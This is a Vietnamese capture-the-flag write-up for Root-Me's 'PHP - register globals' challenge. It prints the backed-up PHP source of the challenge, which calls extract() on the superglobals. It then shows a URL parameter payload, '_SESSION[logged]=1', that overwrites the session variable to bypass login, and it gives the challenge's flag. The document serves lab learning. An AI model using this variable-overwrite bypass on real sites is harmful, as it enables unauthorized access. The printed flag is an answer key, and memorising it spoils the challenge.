



# Write up challenge PHP - register globals

Tác giả:
- **Nguyễn Mỹ Quỳnh**  

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/PHP-register-globals) 
 

Truy cập challenge ta thấy hint được cho là tệp sao lưu. 

 

Tra google thì biết được các tệp sao lưu thường có đuôi là `.bak`, thử truy cập tệp sao lưu bằng đường dẫn `https://challenge01.root-me.org/web-serveur/ch17/index.php.bak`, ta thấy có 1 file sao lưu được tải về:

Tiến hành xem nôi dung file:

            <?php

            function auth($password, $hidden_password){
                $res=0;
                if (isset($password) && $password!=""){
                    if ( $password == $hidden_password ){
                        $res=1;
                    }
                }
                $_SESSION["logged"]=$res;
                return $res;
            }

            function display($res){
                $aff= '
                <html>
                <head>
                </head>
                <body>
                    <h1>Authentication v 0.05</h1>
                    <form action="" method="POST">
                    Password&nbsp; 
                    <input type="password" name="password" />  
                      
                    <input type="submit" value="connect" />  
                    </form>
                    <h3>'.htmlentities($res).'</h3>
                </body>
                </html>';
                return $aff;
            }

            session_start();
            if ( ! isset($_SESSION["logged"]) )
                $_SESSION["logged"]=0;

            $aff="";
            include("config.inc.php");

            if (isset($_POST["password"]))
                $password = $_POST["password"];

            if (!ini_get('register_globals')) {
                $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
                if (isset($_SESSION)) {
                    array_unshift($superglobals, $_SESSION);
                }
                foreach ($superglobals as $superglobal) {
                    extract($superglobal, 0 );
                }
            }

            if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
                $aff=display("well done, you can validate with the password : $hidden_password");
            } else {
                $aff=display("try again");
            }

            echo $aff;

            ?>

Ở các dòng cuối ta thấy để in ra được chuỗi `"well done, you can validate with the password : $hidden_password"` ta cần thỏa mãn điều kiện if đúng. Để ý thấy điều kiện if là hoặc và vế sau có vẻ đơn giản hơn ta tiến hành tập trung vào nó:
        (is_array($_SESSION) && $_SESSION["logged"]==1 )

Như đã thấy việc cần làm hiện tại là phải set được `$_SESSION["logged"]==1`. 

  Để ý và tìm hiểu về tên challenge thì ta biết được register_globals là một tính năng của PHP được kích hoạt theo mặc định trước phiên bản 4.2.0. Khi register_globals được On, PHP sẽ cho phép các biến được sử dụng khi chưa được khởi tạo, tự động tạo biến và đặt giá trị mà không cần code, cũng có thể dùng để ghi đè biến toàn cục và có thể truyền trực tiếp các tham số trong URL để buộc khởi tạo biến.

Đã hiểu được vấn đề, bây giờ cần tiến hành set `$_SESSION["logged"]==1` thông qua register_globals.
Truy cập url `http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1` và ta có được flag:

Submit thành công 

  

> **Flag:** NoTQYipcRKkgrqG

